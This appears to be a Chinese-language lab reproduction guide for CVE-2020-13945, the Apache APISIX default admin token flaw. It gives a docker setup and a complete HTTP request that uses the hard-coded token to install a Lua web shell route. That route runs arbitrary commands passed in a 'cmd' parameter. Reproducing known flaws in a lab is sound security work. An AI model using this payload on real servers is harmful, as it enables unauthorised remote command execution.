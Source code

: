 # Apache APISIX 默认密钥漏洞 CVE-2020-13945

## 漏洞描述

Apache APISIX是一个高性能API网关。在用户未指定管理员Token或使用了默认配置文件的情况下，Apache APISIX将使用默认的管理员Token `edd1c9f034335f136f87ad84b625c8f1`，攻击者利用这个Token可以访问到管理员接口，进而通过`script`参数来插入任意LUA脚本并执行。

参考链接：

- https://apisix.apache.org/docs/apisix/getting-started
- https://github.com/apache/apisix/pull/2244
- https://seclists.org/oss-sec/2020/q4/187

## 环境搭建

执行如下命令启动一个Apache APISIX 2.11.0（这个漏洞并没有且应该不会被官方修复，所以到最新版仍然存在）：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:9080`即可查看到默认的404页面。

## 漏洞复现

利用默认Token增加一个恶意的router，其中包含恶意LUA脚本：

```
POST /apisix/admin/routes HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
Content-Type: application/json
Content-Length: 406

{
    "uri": "/attack",
"script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close()  \n end \nreturn _M",
    "upstream": {
        "type": "roundrobin",
        "nodes": {
            "example.com:80": 1
        }
    }
}
```

![image-20220221205854745](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202212058881.png)

然后，我们访问刚才添加的router，就可以通过cmd参数执行任意命令：

```
http://your-ip:9080/attack?cmd=id
```

![image-20220221205939127](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202212059179.png)

